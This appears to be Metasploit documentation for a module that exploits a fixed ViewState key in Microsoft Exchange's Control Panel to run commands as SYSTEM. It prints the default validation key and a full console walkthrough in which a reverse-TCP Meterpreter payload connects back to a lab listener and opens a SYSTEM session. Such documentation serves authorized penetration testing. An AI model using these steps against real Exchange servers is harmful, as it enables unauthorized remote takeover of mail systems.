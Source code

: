 ## Vulnerable Application

This module exploits a .NET serialization vulnerability in the Exchange Control
Panel (ECP) web page. The vulnerability is due to Microsoft Exchange Server not
randomizing the keys on a per-installation basis resulting in them using the
same validationKey and decryptionKey values. With knowledge of these values, an
attacker can craft a special viewstate to cause an OS command to be executed by
NT_AUTHORITY\SYSTEM using .NET deserialization.

The default ViewState validation key is: `cb2721abdaf8e9dc516d621d8b8bf13a2c9e8689a25303bf`.

This module requires the user to authenticate to Exchange. At a minimum the user
must be a member of the `Domain Users` group and have a mailbox configured on
the Exchange server.

The crafted ViewState must be submitted to the server in a GET request (POST
requests will not work) which introduces a size restriction on the contents. Due
to this, OS commands are limited to a length of approximately 450 which accounts
for the overhead of the serialization data. The OS command must also be XML
encoded which increases the size as well. The .NET deserialization used is the
"TextFormattingRunProperties" chain from the [ysoserial.net][1] project.

## Verification Steps

  1. Install the application
  1. Start msfconsole
  1. Do: `use exploit/windows/http/exchange_ecp_viewstate`
  1. Set the `RHOSTS`, `USERNAME` and `PASSWORD` options
  4. Do: `run`
  5. You should get a shell.

## Options

### USERNAME

Username to log in with

### Password

Password to log in with

## Scenarios

### Exchange 2016 on Server 2012 x64

  For example:

    msf5 > use exploit/windows/http/exchange_ecp_viewstate
    msf5 exploit(windows/http/exchange_ecp_viewstate) > set RHOSTS 192.168.159.129
    RHOSTS => 192.168.159.129
    msf5 exploit(windows/http/exchange_ecp_viewstate) > set USERNAME msflab.local\\jdoe
    USERNAME => msflab.local\jdoe
    msf5 exploit(windows/http/exchange_ecp_viewstate) > set PASSWORD Password1
    PASSWORD => Password1
    msf5 exploit(windows/http/exchange_ecp_viewstate) > set TARGET 1
    TARGET => 1
    msf5 exploit(windows/http/exchange_ecp_viewstate) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
    PAYLOAD => windows/x64/meterpreter/reverse_tcp
    msf5 exploit(windows/http/exchange_ecp_viewstate) > set LHOST 192.168.159.128
    LHOST => 192.168.159.128
    msf5 exploit(windows/http/exchange_ecp_viewstate) > exploit
    
    [*] Started reverse TCP handler on 192.168.159.128:4444 
    [*] Command Stager progress -   3.61% done (449/12424 bytes)
    [*] Command Stager progress -   7.23% done (898/12424 bytes)
    [*] Command Stager progress -  10.84% done (1347/12424 bytes)
    [*] Command Stager progress -  14.46% done (1796/12424 bytes)
    [*] Command Stager progress -  18.07% done (2245/12424 bytes)
    [*] Command Stager progress -  21.68% done (2694/12424 bytes)
    [*] Command Stager progress -  25.30% done (3143/12424 bytes)
    [*] Command Stager progress -  28.91% done (3592/12424 bytes)
    [*] Command Stager progress -  32.53% done (4041/12424 bytes)
    [*] Command Stager progress -  36.14% done (4490/12424 bytes)
    [*] Command Stager progress -  39.75% done (4939/12424 bytes)
    [*] Command Stager progress -  43.37% done (5388/12424 bytes)
    [*] Command Stager progress -  46.98% done (5837/12424 bytes)
    [*] Command Stager progress -  50.60% done (6286/12424 bytes)
    [*] Command Stager progress -  54.21% done (6735/12424 bytes)
    [*] Command Stager progress -  57.82% done (7184/12424 bytes)
    [*] Command Stager progress -  61.44% done (7633/12424 bytes)
    [*] Command Stager progress -  65.05% done (8082/12424 bytes)
    [*] Command Stager progress -  68.67% done (8531/12424 bytes)
    [*] Command Stager progress -  72.28% done (8980/12424 bytes)
    [*] Command Stager progress -  75.89% done (9429/12424 bytes)
    [*] Command Stager progress -  79.51% done (9878/12424 bytes)
    [*] Command Stager progress -  82.74% done (10279/12424 bytes)
    [*] Command Stager progress -  86.15% done (10703/12424 bytes)
    [*] Command Stager progress -  89.43% done (11111/12424 bytes)
    [*] Command Stager progress -  92.91% done (11543/12424 bytes)
    [*] Command Stager progress -  96.28% done (11962/12424 bytes)
    [*] Sending stage (206403 bytes) to 192.168.159.129
    [*] Command Stager progress -  99.84% done (12404/12424 bytes)
    [*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.129:17626) at 2020-03-02 10:40:52 -0500
    [*] Command Stager progress - 100.00% done (12424/12424 bytes)
    
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    meterpreter > sysinfo
    Computer        : EXCHANGE
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : MSFLAB
    Logged On Users : 9
    Meterpreter     : x64/windows
    meterpreter > 

[1]: https://github.com/pwntester/ysoserial.net
